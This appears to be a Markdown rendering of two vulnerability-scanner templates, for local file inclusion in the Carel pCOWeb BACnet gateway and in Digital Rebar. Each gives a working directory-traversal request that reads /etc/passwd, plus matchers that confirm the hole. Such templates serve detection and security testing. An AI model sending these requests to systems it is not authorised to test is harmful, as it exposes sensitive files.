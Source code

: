 - Carel pCOWeb HVAC BACnet Gateway 2.1.0 is vulnerable to local file inclusion because of input passed through the 'file' GET parameter through the 'logdownload.cgi' Bash script is not properly verified before being used to download log files. This can be exploited to disclose the contents of arbitrary and sensitive files via directory traversal attacks.
- severity - high
- tags - carel,lfi,traversal,unauth,bacnet

## Requests

- Method - GET

### URL

- {{BaseURL}}/usr-cgi/logdownload.cgi?file=../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# Digital Rebar - Local File Inclusion

## Description

- Digital Rebar versions 4.3.0, 4.3.2, 4.3.3, 4.4.0, and maybe others are vulnerable to local file inclusion because web requests can navigate outside of DRP controlled areas.
- severity - high
- tags - lfi,rackn,digitalrebar

## Requests

- Method - GET

### URL

- {{BaseURL}}/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0

**Type - word**

- part - header
- words
  1. X-Drp-Sha256sum:
